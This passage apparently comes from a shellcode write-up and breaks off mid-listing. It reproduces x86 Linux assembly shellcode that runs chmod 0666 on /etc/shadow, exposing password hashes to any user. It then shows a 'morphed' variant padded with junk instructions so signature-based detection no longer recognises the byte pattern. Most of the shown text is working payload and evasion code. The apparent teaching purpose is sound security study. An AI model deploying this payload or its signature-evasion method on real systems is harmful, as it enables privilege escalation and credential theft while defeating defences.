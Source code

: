 The new shellcode is 85 bytes, about 37% more than the original 62 bytes.

Next, we'll look at the [chmod 0666 /etc/shadow](http://shell-storm.org/shellcode/files/shellcode-556.php) shellcode, reproduced below:

```nasm
; chmod_etc_shadow.nasm
;  - Execute chmod 0666 /etc/shadow and exit
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-556.php

    global _start

section .text
_start:

        xor eax,eax
        push eax

        push dword 0x776f6461   ; woda
        push dword 0x68732f2f   ; hs//
        push dword 0x6374652f   ; cte/
        mov ebx,esp

        push word 0x1b6
        pop ecx

        mov al,0xf              ; chmod
        int 0x80

        mov al,0x1              ; exit
        int 0x80
```

With this shellcode we'll try a different approach by adding nop-equivalent operations to obfuscate the pattern.  My morphed shellcode is shown below:

```nasm
; chmod_etc_shadow.nasm
;  - Execute chmod 0666 /etc/shadow and exit
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-556.php

    global _start

section .text
_start:

        sub ebx,ebx             ; xor eax,eax
        xchg eax,ebx            ; ...
        push eax

        push dword 0x776f6461   ; woda
        inc ebx
        lea ebx, [ecx]
        push dword 0x68732f2f   ; hs//
        push ecx
        add esp, 4
        push dword 0x6374652f   ; cte/
        mov ebx,esp
        mov ecx, eax

        push word 0x1b6
        pop ecx

        mov al,0x10             ; chmod
```
